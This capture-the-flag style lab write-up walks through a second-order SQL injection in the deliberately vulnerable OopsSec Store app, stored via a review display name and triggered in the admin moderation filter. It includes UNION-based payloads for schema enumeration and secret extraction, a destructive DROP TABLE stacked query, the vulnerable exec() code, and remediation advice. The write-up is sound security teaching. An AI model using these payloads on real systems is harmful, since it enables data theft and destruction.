





This writeup walks through a second-order SQL injection in OopsSec Store's review moderation feature. The twist compared to a classic SQL injection: the payload doesn't execute when it's submitted. It sits harmlessly in the database until the application feeds it into a different, unparameterized query.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 127.0.0.1:3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## Target identification

The application lets users submit product reviews with a customizable "Display name" field. Instead of defaulting to their email address, users pick how their name shows up on reviews.



The admin panel has a "Review Moderation" section at `/admin/reviews` where admins can view and filter all reviews by author. The filter is a dropdown populated with distinct author names from the database.



## Understanding second-order injection

In a classic (first-order) SQL injection, the payload executes at the point of input. In a second-order attack, the malicious input is stored safely first and only executes later when the application reuses it in a different, unsafe context.

The developer mistake: assuming that data from your own database is trustworthy and doesn't need parameterization.

## Exploitation

### Step 1: Store the payload

Log in with any account (e.g., `alice@example.com` / `iloveduck`), open any product page and submit a review. The "Display name" field is the sink: whatever goes in there is stored verbatim and rebuilt into a raw query later. Start with a probe that closes the author filter and merges a second result set:

```
x' UNION SELECT 1, 2, 3, 4, 5, 6 --
```

Write anything in the review body and submit. Nothing happens yet — the review is stored through Prisma, parameterized, and the payload is just a string sitting in a column.



### Step 2: Gain admin access

To access the admin panel, you need admin privileges. You can get there through other vulnerabilities in the lab (Mass Assignment, JWT forgery, SQL Injection with Weak MD5, etc).

### Step 3: Trigger the injection

Navigate to `/admin/reviews`. The moderation panel lists every review and offers a "Filter by author" dropdown, populated with the distinct author names in the database — yours included.

Select it. If the column count is wrong, the panel says so, which is how you find out the query returns six of them:

```json
{
  "error": "SELECTs to the left and right of UNION do not have the same number of result columns"
}
```

Each correction means posting a new review with the adjusted display name — the payload only ever arrives through storage.



The panel is also happy to run several statements at once, because the filter goes through `better-sqlite3`'s `exec()`. A display name like `'; DROP TABLE reviews; --` really does wipe the reviews table, so, if you want to try, keep that one for after you have the flag.

> To recover, run `npm run db:push && npm run db:seed`: `db:push` recreates the missing table, and the seed needs it back before it can read it. Your captured flags survive both steps.

### Step 4: Enumerate the schema

Store a display name that reads SQLite's own catalogue:

```
x' UNION SELECT 1, 2, group_concat(name), 4, 5, 6 FROM sqlite_master WHERE type='table' --
```

Filter by it, and the third column of the injected row lists every table:

```
users,products,carts,cart_items,orders,order_items,addresses,flags,hints,revealed_hints,reviews,support_access_tokens,found_flags,project_init,visitor_logs,wishlists,wishlist_items,password_reset_tokens,supplier_orders,coupons,gift_cards,stream_config,sqlite_sequence,internal_secrets
```

`flags` is walled off — naming it returns `403`, and any `OSS{…}` value is stripped from the response before it leaves the server. `internal_secrets` is not.

Its slugs are readable the same way, so there is nothing to guess. Store one more display name:

```
x' UNION SELECT 1, 2, group_concat(slug), 4, 5, 6 FROM internal_secrets --
```

```
product-search-sql-injection,second-order-sql-injection,sql-injection,x-forwarded-for-sql-injection
```

One row per injection challenge, each named after the challenge it belongs to.

### Step 5: Read the canary

This panel only looks for its own token. Post one last review under this display name:

```
x' UNION SELECT 1, 2, token, 4, 5, 6 FROM internal_secrets WHERE slug='second-order-sql-injection' --
```

Filter by it on the moderation panel:

```json
{
  "reviews": [
    {
      "id": 1,
      "productId": 2,
      "content": "CANARY-SECOND-ORDER-SQL-INJECTION-9dcc7a53b1ba",
      "author": 4
    }
  ],
  "flag": "OSS{s3c0nd_0rd3r_sql_1nj3ct10n}",
  "message": "Internal secret exfiltrated through a stored review author! Well done!"
}
```



The token is generated when the lab is seeded, so it differs on every instance: returning it proves the stored name was executed as SQL.

Dropping the `WHERE` works just as well: all four rows come back and the panel finds its own token among them. The filter keeps the response readable, it is not a requirement.

## Vulnerable code analysis

The vulnerability is in the admin reviews API endpoint at `/api/admin/reviews`:

```typescript
// Reviews are stored safely via Prisma ORM (parameterized)
const review = await prisma.review.create({
  data: { productId: id, content, author }, // Safe
});

// But later reused unsafely via raw SQLite driver with multi-statement support
const db = new Database(getDbPath());
const query = `
  SELECT r.id, r.content, r.author, ...
  FROM reviews r
  WHERE r.author = '${authorFilter}'   // VULNERABLE
`;
db.exec(query); // exec() runs ALL statements, including DROP TABLE
```

The developer trusted the author value because it came from the application's own database dropdown, not directly from user input. Using `exec()` instead of `prepare()` makes it worse: `exec()` allows multi-statement execution, so a `DROP TABLE` slipped into the query string will actually run.

## Remediation

Replace the raw SQL query with Prisma's parameterized query builder:

```typescript
// SECURE - Use Prisma's built-in parameterization
const reviews = await prisma.review.findMany({
  where: { author: authorFilter },
  include: { product: { select: { name: true } } },
  orderBy: { createdAt: "desc" },
});
```

The root issue is treating database-sourced data as safe. It isn't. Parameterize every query regardless of where the data comes from. For filter dropdowns like this one, an allowlist of valid values is even better since the set of authors is known ahead of time.
